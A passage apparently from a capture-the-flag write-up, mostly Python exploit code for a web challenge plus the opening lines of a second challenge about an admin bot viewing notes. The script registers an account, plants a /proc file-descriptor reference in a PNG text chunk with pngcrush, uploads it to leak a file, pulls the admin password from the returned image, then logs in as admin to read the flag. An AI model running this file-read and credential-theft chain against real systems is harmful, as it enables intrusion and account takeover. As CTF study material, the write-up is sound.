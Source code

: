 ```py
app = Flask(__name__)
@app.route("/exploit")
def exploit():
   invit_code = request.args.get('invit_code')
   print(invit_code)
   req = requests.Session()
   req.post(TARGET+"/api/register", json={"username":"bengsky13","email":"bengsky13sec@gmail.com","password":"123123@A","invite_code":invit_code}, verify=False)
   subprocess.run(['pngcrush', '-text', 'a', 'profile', '/proc/13/fd/3', 'x.png'], capture_output=True)
   print("DEBUG HERE")
   image = base64.b64encode(open("pngout.png","rb").read()).decode()
   req.post(TARGET+"/api/upload", json={"image":image}, verify=False)
   print("UPLOADED")
   x = req.get(TARGET+"/home", verify=False)
   print(x.text)
   path = x.text.split('<img src="/static/uploads/')[1].split('"')[0]
   download = req.get(TARGET+"/static/uploads/"+path, verify=False)
   with open("download.png", "wb") as f:
       f.write(download.content)
   print("Image downloaded.")
   password = print_image_profiles("download.png")
   req = requests.Session()
   req.post(TARGET+"/api/login", json={
       "username":"admin",
       "password":password
   }, verify=False)
   print(req.get(TARGET+"/flag", verify=False).text.split('<p class="text-muted">')[1].split('</p>'))
   return 'a'
@app.route("/")
def home():
   return """
"""
if __name__ == "__main__":
   app.run(ssl_context=("cert.pem", "key.pem"), host="0.0.0.0", port=8000)
```  

## [856 pts] note app biasa
![alt text](/assets/img/note.png)

Answer to challenge description: ora ctf yo sakau

This challenge quite be simple, there was bot that logged as admin and view note that will be specify by user 
